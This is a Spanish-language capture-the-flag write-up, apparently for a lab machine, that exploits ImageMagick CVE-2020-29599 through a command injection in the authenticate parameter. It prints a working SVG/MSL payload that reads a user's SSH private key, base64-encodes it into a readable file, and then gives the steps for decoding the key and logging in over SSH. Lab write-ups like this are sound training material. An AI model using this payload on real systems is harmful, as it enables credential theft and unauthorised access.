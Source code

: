 Investigando un poco de `mogrify` nos damos cuenta que es parte de la herramienta `ImageMagick`, entonces buscamos la version para ver si es vulnerable:

![ImageMagick](ImageMagick_version.png){: .shadow }

Tenemos la versión `ImageMagick 7.0.10-36`, buscando en internet encontramos una vulnerabilidad **(_CVE-2020-29599_)**, la cuál nos permite inyectar comandos a través del parámetro `-authenticate` que es vulnerable al momento de asignar una contraseña a un archivo PDF encriptado.

![CVE-2020-29599](CVE-2020-29599.png){: .shadow }

En el siguiente enlace puede ver el artículo donde se analiza a detalle dicha vulnerabilidad: [https://insert-script.blogspot.com/2020/11/imagemagick-shell-in
jection-via-pdf.html](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html)

Primero nos dirigimos a un directorio de prueba `/tmp` y creamos un archivo de formato _.svg_ `poc.svg` con el siguiente contenido:

```html
<image authenticate='ff" `echo $(cat /home/thomas/.ssh/id_rsa | base64)> /home/thomas/private_key`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```
Con lo anterior nuestro objetivo es entrar como el usuario **thomas**, y sabiendo que podemos ejecutar comandos, entonces intentamos visualizar la **llave privada** de **thomas**, encodearla con `base64` para tener un mejor formato y por último ponerle un nombre `private_key` y ubicarla en un directorio donde podamos visualizarla `/home/thomas/`.

Ya tenemos el archivo listo, ahora en base al script `convert_images.sh` lo copiamos a la ruta `/var/www/dev01.artcorp.htb/convert_images/`, ejecutamos dicho script y en cuestión de algunos segundos nos dirigimos a la carpeta asiganada anteriormente en la cuál encontraremos la **llave privada** encodeada:

![Private\_key](private_key_base64.png){: .shadow}

Solo queda ordenarla, decodearla, guardarla en nuestro equipo para entrar por **SSH** como el usuario **thomas** y ver la **flag**:

> En la máquina víctima:
>
> 1. Ejecutamos: cat private\_key \| tr \' \' \'\n\' \| base64 -d
>
> 2. Copiamos el output
>
> En nuestra máquina:
>
> 1. Creamos un archivo: touch id\_rsa
>
> 2. Pegamos el output, guardamos
>
> 3. Le damos permisos: chmod 600 id\_rsa
